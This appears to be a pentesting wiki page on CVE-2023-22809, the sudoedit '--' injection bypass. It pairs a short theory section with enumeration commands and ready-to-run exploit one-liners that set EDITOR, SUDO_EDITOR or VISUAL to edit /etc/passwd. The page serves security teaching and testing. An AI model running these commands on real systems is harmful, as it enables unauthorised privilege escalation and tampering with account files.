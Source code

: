 ```yaml
---
description: CVE-2023-22809
---
```


# Sudoedit Bypass

## Theory

Sudo uses user-provided environment variables to let its users select their editor of choice. The content of these variables extends the actual command passed to the sudo\_edit() function. However, the latter relies on the presence of the `--` argument to determine the list of files to edit. The injection of an extra `--` argument in one of the authorized environment variables can alter this list and lead to privilege escalation by editing any other file with privileges of the RunAs user. This issue occurs after the sudoers policy validation. - [Synacktiv](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

The vulnerability affect sudo versions **1.8.0** to **1.9.12p1**.

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To exploit, sudo version must be vulnerable (**1.8.0** to **1.9.12p1**)

```bash
$ sudo -V
Sudo version 1.8.0
```

You must be able to run sudoedit with sudo

```bash
$ sudo -l
[sudo] password for user:
Matching Defaults entries for user on vulnserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on vulnserver:
    (ALL:ALL) sudoedit /etc/custom/service.conf
```

And env\_delete shouldn't be set to affected variables:

```bash
env_delete+="SUDO_EDITOR VISUAL EDITOR"
```
{% endtab %}

{% tab title="Exploit" %}
To exploit it, we may use one of the following commands:

```bash
EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

SUDO_EDITOR='vim -- /etc/passwd' sudoedit /etc/custom/service.conf

VISUAL='vim -- /etc/passwd' sudoedit /etc/custom/service.conf
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

